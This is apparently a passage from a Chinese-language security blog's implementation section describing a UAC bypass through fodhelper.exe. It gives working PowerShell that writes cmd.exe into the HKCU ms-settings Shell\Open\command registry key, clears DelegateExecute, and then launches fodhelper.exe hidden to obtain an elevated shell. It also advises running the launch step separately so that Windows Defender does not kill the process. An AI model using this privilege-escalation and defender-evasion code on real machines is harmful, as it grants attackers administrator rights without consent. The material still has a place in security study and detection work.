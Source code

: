
# 0x03 实现

这里直接把要新建的项和键都写到脚本里面即可,最后再单独运行fodhelper.exe,拿powershell举例:

```powershell
[String]$PE = "C:\windows\system32\cmd.exe"
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $PE -Force
```



最后单独运行fodhelper.exe,这里之所以要最后单独运行,是因为上面测试的时候我们知道,如果谁去动``HKCU:\Software\Classes\ms-settings\Shell\Open\command``的default的键对应的值,会被windowsdefender直接干掉,进程直接g;所以这里后面的操作不能写到上面一起:

```powershell
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```







删除,所有ms-setting子项:

![image-20240723170407070](/img/BypassUAC_fodhelper进程Registry-Shell_Open_Command提权/image-20240723170407070.png)
